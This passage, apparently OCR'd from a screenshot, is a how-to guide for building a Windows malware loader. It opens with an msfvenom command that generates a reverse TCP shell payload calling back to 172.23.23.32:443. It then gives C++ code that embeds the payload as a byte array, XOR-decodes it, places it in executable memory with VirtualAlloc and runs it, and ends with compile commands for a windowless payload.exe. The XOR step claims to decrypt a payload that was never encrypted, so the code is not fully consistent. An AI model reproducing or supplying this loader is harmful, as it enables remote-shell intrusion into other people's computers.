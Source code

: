 `msfvenom -p windows/shell/reverse_tcp LHOST=172.23.23.32 LPORT=443 -f raw > mal.bin`


To include your **binary file (`mal.bin`)** in your C++ code, follow these steps:

---

## **1. Convert `mal.bin` to a C++ Byte Array**
Since `mal.bin` contains raw binary data, you need to **convert it into a byte array** to embed it in your C++ code. Use **xxd** (Linux/macOS) or a Python script (Windows/Linux) for conversion.

### **Method 1: Use `xxd` (Linux/macOS)**
Run this command to convert `mal.bin` to a C-style byte array:
```bash
xxd -i mal.bin > mal_payload.h
```
This generates output like:
```c
unsigned char mal_bin[] = {
  0x1d, 0x52, 0x30, 0x52, 0x08, 0x75, 0x7d, 0x3b, 0x7d, 0x24, 0x75, 0x58,
  0x58, 0x24, 0x66, 0x4c, 0xd0, 0x8a, 0x58, 0x20, 0x50, 0xd3, 0x8b, 0x48,
  // ... rest of the binary data
};
unsigned int mal_bin_len = 256; // Adjust based on actual size
```
Now, you can include this file in your C++ code:
```cpp
#include "mal_payload.h"
```

---

### **Method 2: Use Python to Convert `mal.bin` (Windows/Linux)**
```python
with open("mal.bin", "rb") as f:
    data = f.read()

print("unsigned char mal_bin[] = {", end="")
for i, byte in enumerate(data):
    print(f"0x{byte:02X}, ", end="")
    if (i + 1) % 16 == 0:
        print()
print("};")

print(f"unsigned int mal_bin_len = {len(data)};")
```
Run this script, and **copy the output** into your C++ file.

---

## **2. Modify C++ Code to Use `mal.bin`**
Now, modify the code to **use the embedded binary payload** instead of a manually typed shellcode:

```cpp
#include <iostream>
#include <windows.h>
#include "mal_payload.h"  // Include the converted binary file

/*
	- pShellcode : Base address of the payload to encrypt 
	- sShellcodeSize : The size of the payload 
	- bKey : A random array of bytes of specific size
	- sKeySize : The size of the key
*/
void XorByInputKey(PBYTE pShellcode, SIZE_T sShellcodeSize, PBYTE bKey, SIZE_T sKeySize) {
    for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
        if (j >= sKeySize) {
            j = 0;  // Reset key index when reaching the end
        }
        pShellcode[i] ^= bKey[j];  // XOR encryption
    }
}

int main() {
    PBYTE shellcode = (PBYTE)mal_bin;
    SIZE_T shellcode_size = mal_bin_len;

    unsigned char key[] = { 0xAA, 0xBB, 0xCC }; // Multi-byte XOR key
    SIZE_T key_size = sizeof(key);

    std::cout << "Original Encrypted Payload:\n";
    for (SIZE_T i = 0; i < shellcode_size; i++) {
        std::cout << "0x" << std::hex << (int)shellcode[i] << " ";
    }
    std::cout << "\n";

    // Decrypt before execution
    XorByInputKey(shellcode, shellcode_size, key, key_size);

    // Allocate executable memory
    void* exec_mem = VirtualAlloc(NULL, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!exec_mem) {
        std::cerr << "[-] VirtualAlloc failed!\n";
        return 1;
    }

    // Copy decrypted shellcode to allocated memory
    memcpy(exec_mem, shellcode, shellcode_size);

    // Execute the shellcode
    ((void(*)())exec_mem)();

    return 0;
}
```

---

## **Final Steps**
1. **Convert `mal.bin` to a C array** using `xxd -i` or Python.
2. **Include `mal_payload.h`** in your C++ file.
3. **Use `mal_bin` and `mal_bin_len` instead of manually typing shellcode.**
4. **Compile & Run**:
   ```bash
   g++ -o payload.exe payload.cpp -static -mwindows
   ```
   Or for MinGW on Windows:
   ```bash
   x86_64-w64-mingw32-g++ -o payload.exe payload.cpp -static
   ```

---
`